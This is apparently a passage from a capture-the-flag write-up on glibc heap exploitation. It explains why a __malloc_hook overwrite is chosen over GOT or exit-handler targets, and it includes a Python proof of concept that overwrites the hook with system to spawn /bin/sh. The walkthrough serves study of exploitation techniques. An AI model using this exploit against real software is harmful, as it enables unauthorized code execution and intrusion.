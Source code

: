 In order to get a shell, we may either overwrite entry at the GOT / PLT, such as `printf`, with `system` address, calculated by our leaked libc value. 

Another option is overwriting entries within the `_fini` array, which contains function pointers that will be called during the program's exit. 

However, for `FULL RELRO` binaries, these techniques aren't possible - as these sections marked as read only. 

A possible approach would be targeting a heap function pointer. 
Since this is a relative address within the heap, there is even no need for a heap address leakage primitive. \
However - no such pointers exist within this particular scenario. 

Targeting libc seems interesting. \
We have a libc leak. It may be possible to overwrite its PLT (which is writeable!) or `__exit_funcs` and `tls_dtor_list`, which are similar to `_fini` behavior (but protected with `Pointer Guard`). \
Note however it isn't trivial to trigger functions within libc, from our binary execution. 

A common heap technique for such cases are the `malloc hooks` family. \
Each core function, such as `malloc, free, realloc`, have an associated hook - which is a writeable function pointer within glibc data section.

The original idea behind these hooks, are to allow developers implement their own memory allocators, or collect malloc statistics. 

By setting the right offsets, i got the following heap layout, right after allocating the first large chunk (before allocating the small 24-bytes chunk):

```bash
0x7ffff7dd0c00  0x00007ffff7aa1bd0      0xffff800008832419      .........$......         <-- Top chunk
0x7ffff7dd0c10  0x0000000000000000      0x0000000000000000      ................
```

Within this snippet, `0x7ffff7dd0c10` is the address of `__malloc_hook` function pointer. \
By default, it is initalized to `NULL` - and ignored by `malloc` calls.

My idea is to overwrite this function pointer with the address of `system` from `glibc`. \
It can be easily found, as we have leaked libc address. 

Moreover, in order to call `system("/bin/sh")`, we have to set the "size" of the overwritten malloc call to an address, containing the string `/bin/sh`. 

Its pretty easy - we can either write the string `/bin/sh` ourself on the heap, and set the `size` to its heap address.

Another, more elegant approach is using the address of `/bin/sh` within libc as the `size` - as we have already leaked its address. 

shell POC:

```python
malloc(24, b"Y"*24 + b"\xff"*8)

# We want the next allocation (0x20) to reside on malloc hook. We substract the start address of top chunk in order to calculate the offset
distance = (libc.sym.__malloc_hook - 0x20) - (heap + 0x20)

# request the large chunk
malloc(distance, b"A")

# returns the address as integer
bin_sh = list(libc.search(b'/bin/sh'))[0]
print(f"THE BINSH IS {bin_sh}")

# override __malloc_hook with system address
malloc(24, p64(libc.sym.system))

# trigger call to system(bin_sh)
malloc(bin_sh, b"")
```

[the-malloc-maleficarum]: https://dl.packetstormsecurity.net/papers/attack/MallocMaleficarum.txt
[dtors-technique]: https://lwn.net/2000/1214/a/sec-dtors.php3
[dynamic-technique]: https://thibaut.sautereau.fr/2016/09/09/bypassing-aslr-overwriting-the-dynamic-section/
[exit-handlers]: http://binholic.blogspot.com/2017/05/notes-on-abusing-exit-handlers.html
[exit-handlers2]: https://buffer.antifork.org/security/heap_atexit.txt
[exit-handlers3]: https://ctftime.org/writeup/34804
[exit-handlers4]: http://www.sis.pitt.edu/jjoshi/courses/IS2620/Fall17/Lecture4.pdf
[exit-handlers5]: https://www.tooboat.com/?p=655
[exit-handlers6]: https://flylib.com/books/en/1.545.1.34/1/
[exit-handlers7]: http://images.china-pub.com/ebook3765001-3770000/3768102/ch03.pdf
[exit-handlers8]: https://github.com/bash-c/HITCON-Training-Writeup/blob/master/writeup.md
[exit-handlers9]: https://shotgh.tistory.com/98
[exit-handlers10]: https://0x00sec.org/t/0x00ctf-writeup-babyheap-left/5314